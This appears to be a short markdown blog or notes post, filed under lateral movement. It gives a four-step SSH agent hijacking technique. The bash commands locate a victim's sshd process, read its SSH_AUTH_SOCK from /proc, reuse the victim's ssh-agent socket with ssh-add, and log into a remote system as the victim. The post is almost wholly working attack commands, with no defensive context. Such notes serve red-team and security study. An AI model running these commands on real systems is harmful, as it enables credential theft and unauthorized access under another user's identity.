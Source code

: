```yaml
---
description: >-
    SSH Hijacking technique
title: SSH Hijacking                  # Add title here
date: 2022-08-24 08:00:00 -0600                           # Change the date to match completion date
categories: [02 Lateral Movement, SSH Hijacking]                     # Change Templates to Writeup
tags: [ssh hijacking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

Step 1: We first determine the SSH process ID of the user on the
compromised host: 
```bash
ps aux |grep sshd
```

Step 2: Determine the SSH_AUTH_SOCK environment variable for the sshd PID:
```bash
grep SSH_AUTH_SOCK /proc/<PID>/environ
```

Step 3: We then hijack the targets ssh-agent socket:

```bash
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add –l
```


Step 4: Finally, we log into the remote system our victim is logged into as the target: 
```bash
ssh remotesystem -l victim
```
